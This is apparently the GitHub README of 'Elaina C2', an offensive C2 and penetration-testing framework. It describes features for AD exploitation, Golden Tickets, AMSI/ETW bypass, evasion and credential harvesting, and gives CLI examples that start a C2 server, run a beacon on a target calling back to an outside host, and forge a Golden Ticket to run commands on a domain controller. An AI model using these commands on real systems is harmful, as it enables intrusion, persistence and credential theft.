 # ⚠️ Disclaimer  
**This is only a weak demo version and will not meet everyone’s expectations.**  
Use it strictly for **educational and authorized penetration testing purposes** only.  

---

# 🌸 Elaina C2 Framework  

[![License](https://img.shields.io/badge/license-MIT-blue.svg)](LICENSE)  
[![Python](https://img.shields.io/badge/python-3.8+-blue.svg)](https://www.python.org/downloads/)  
[![Platform](https://img.shields.io/badge/platform-Windows%20%7C%20Linux%20%7C%20macOS-lightgrey.svg)](https://github.com/yuri08loveelaina/elaina-c2)  

Elaina C2 (codename: **Elaina Cute**) is a modular penetration testing and C2 framework that comes with both a command-line interface (CLI) and a graphical user interface (GUI).  
It is designed to assist security professionals in **Active Directory assessments, red team operations, and advanced post-exploitation scenarios**.  

---

## ✨ Key Features  

### 🎯 Attacks & Exploitation  
- Active Directory Certificate Services (**ADCS**) exploitation  
- **Kerberos Golden Ticket** generation  
- **NTLM Relay** attacks  
- Web exploitation: SQL Injection, SSRF, LFI, XXE, IDOR  
- **Redis RCE**  

### 🕵️ Evasion Capabilities  
- Anti-debugging & Anti-VM checks  
- AMSI & ETW bypass  
- Adaptive traffic shaping  
- Random domain generation for obfuscation  

### 🖥️ Graphical User Interface (GUI)  
- Real-time dashboard  
- Beacon & attack management  
- Remote file/system interaction  
- Built-in script editor & browser  

### 📡 Command & Control (C2)  
- Protocols: HTTP(S), DNS, TCP, SMB  
- Encrypted communication  
- Smart Beaconing  
- **Silver C2** with advanced stealth  

### 🔍 Information Gathering  
- Credential harvesting  
- Network mapping & system inventory  
- Remote screenshotting  
- File upload/download  

---

## ⚙️ System Requirements  
- **Python** 3.8+  
- **OS**: Windows, Linux, macOS  
- **RAM**: Minimum 4GB (8GB+ recommended)  
- **Disk Space**: 500MB+  

---

## 🚀 Installation  

- Clone the repository and install dependencies:  
```bash
git clone https://github.com/yuri08loveelaina/elaina-c2.git
cd elaina-c2
sudo apt update
sudo apt install python3-pip python3-venv
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```
- Install Dependencies
```
pip install PyQt5 selenium requests beautifulsoup4 colorama \
            undetected-chromedriver selenium-wire impacket \
            stem cryptography cloudscraper certipy
```
## 🖥️ Usage  

- Launch GUI
```
python elaina-cute.py --gui
```

- Or simply run without arguments
```
python elaina-cute.py
```

 ## Command-Line Examples

- Web scan
```
python elaina-cute.py https://example.com
```

- With TOR
```
python elaina-cute.py https://example.com --tor
```

- LDAP subnet scan
```
python elaina-cute.py https://example.com --ldap-subnet 10.0.0.0/24
```

- With Burp Suite
```
python elaina-cute.py https://example.com --burp
```

- Start C2 Server (HTTP)
```
python elaina-cute.py --c2-server --c2-host 0.0.0.0 --c2-port 8080
```

- Start C2 Server (HTTPS)
```
python elaina-cute.py --c2-server --c2-host 0.0.0.0 --c2-port 8443 \
  --c2-ssl --c2-cert /path/to/cert.pem --c2-key /path/to/key.pem
```

- Golden Ticket Generation
```
python elaina-cute.py --golden-ticket \
  --gt-domain EXAMPLE.COM --gt-user administrator \
  --gt-krbtgt-hash <hash> --gt-sid <sid>
```

- Complete AD Assessment
```
python elaina-cute.py https://internal.example.com \
  --ldap-subnet 10.0.0.0/24 --winrm-user admin --winrm-pass password
```

- C2 Infrastructure Setup

- Terminal 1: Start C2 Server 
```
python elaina-cute.py --c2-server --c2-host 0.0.0.0 --c2-port 8443 \
  --c2-ssl --c2-cert /path/to/cert.pem --c2-key /path/to/key.pem
```

- Terminal 2: Start Beacon on target
```
python elaina-cute.py --c2-beacon --c2-beacon-host example.com \
  --c2-beacon-port 8443 --c2-beacon-ssl
```

- Golden Ticket Attack
```
python elaina-cute.py --golden-ticket \
  --gt-domain EXAMPLE.COM --gt-user administrator \
  --gt-krbtgt-hash aad3b435b51404eeaad3b435b51404ee:... \
  --gt-sid S-1-5-21-... --gt-target dc01.example.com \
  --gt-command "whoami"
```
## 📚 Documentation  

### Command Line Options  

| Option         | Description                               |
|----------------|-------------------------------------------|
| `--gui`        | Launch GUI interface                      |
| `--tor`        | Route traffic through TOR                 |
| `--tor-pass`   | TOR control password (default: yuriontop) |
| `--burp`       | Forward requests to Burp Repeater API     |
| `--ldap-subnet`| Scan subnet via LDAP                      |
| `--winrm-user` | WinRM username                            |
| `--winrm-pass` | WinRM password                            |
| `--pfx-path`   | Path to .pfx certificate                  |
| `--pfx-password`| Password for .pfx certificate            |
| `--golden-ticket`| Generate Kerberos Golden Ticket         |
| `--c2-server`  | Start C2 server                           |
| `--c2-beacon`  | Start C2 beacon                           |
| `--silver-c2`  | Start Silver C2 beacon                    |
## 🏗️ Architecture  

Core Engine – exploitation & post-exploitation  
C2 Framework – beacon management & communications  
GUI – PyQt5-based dashboard  
CLI – automation & scripting interface  
Encryption Module – secure comms  
Evasion Module – stealth & defense bypass  

## 📜 License  

This project is licensed under the MIT License – see the LICENSE file.  

## ⚠️ Disclaimer  

This tool is for educational and authorized security testing only.  
The authors are not responsible for any misuse.  

## 🙏 Acknowledgments  

Impacket Project – networking backbone  
PyQt5 Team – GUI framework  
Security researchers for techniques & inspiration  
All contributors ❤️  


